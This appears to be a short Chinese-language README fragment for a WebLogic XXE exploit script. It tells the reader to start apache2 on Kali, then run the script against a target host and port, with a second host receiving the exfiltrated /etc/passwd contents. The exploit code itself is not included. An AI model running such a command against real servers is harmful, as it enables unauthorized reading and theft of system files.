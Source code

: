 #### 由于自己的懒惰需要大家在kali中运行脚本，并且手动启动apache2
```
service apache2 start
python weblogic_xxe_exp.py 192.168.1.113 7001 192.168.1.110 /etc/passwd
```
![](weblogic-1.png)
